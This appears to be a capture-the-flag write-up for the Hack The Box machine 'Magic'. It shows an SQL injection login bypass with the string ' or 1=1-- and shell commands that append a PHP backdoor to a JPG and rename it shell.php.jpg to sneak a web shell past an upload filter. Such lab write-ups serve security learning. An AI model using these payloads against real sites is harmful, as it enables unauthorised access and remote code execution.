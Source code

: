 The webpage seems to be some kind of image-portfolio. There is also a small login-button at the bottom left.
![Magic webpage](https://jackhack.se/assets/images/magic/magic_webpage.png)
{: .full}

Enumerating the page more shows that it is running PHP, but nothing further intresting, so i would guess that the login page is the path forward. 

# Foothold

Turns out the login is easily bypassed with a simple sql injection, [this page](https://sechow.com/bricks/docs/login-1.html) is great for understanding the basics of SQL injections. 


>SELECT * FROM users WHERE name='' or '1'='1' and password='' or '1'='1'
>The SQL query is crafted in such a way that both username and password verifications are bypassed. The above statement actually queries for all the users in the database and thus bypasses the security.

Something strange was that the webpage did not allow spaces in the username or password, but by writing the injection string in a text editor and pasting it in login forms, i was able to bypass that.

I used the injection string *' or 1=1--* for both user and password and gained access to the upload function.

When trying to upload any standard image, the file would get uploaded to the following url
~~~
http://magic.htb/images/uploads/image.jpg
~~~

Trying to upload a simple php shell gives the following error message

![Shell Error](https://jackhack.se/assets/images/magic/shellupload.png)
{: .full}

Here i decide to try to trick the upload function, by uploading a image containing a php shell. 

~~~
┌──(kali@kali)-[~/boxes/magic]
└─$ cp /usr/share/webshells/php/simple-backdoor.php .

┌──(kali@kali)-[~/boxes/magic]
└─$  mv simple-backdoor.php shell.php

┌──(kali@kali)-[~/boxes/magic]
└─$ cat shell.php >> shell_tmp.jpg

┌──(kali@kali)-[~/boxes/magic]
└─$ mv shell_tmp.jpg shell.php.jpg
~~~
{: .language-bash}

I have an image called shell_tmp.jpg and by appending the contents of shell.php to the end of the JPG file and changing the extension from .jpg to .php.jpg, i might be able to upload my simple backdoor.
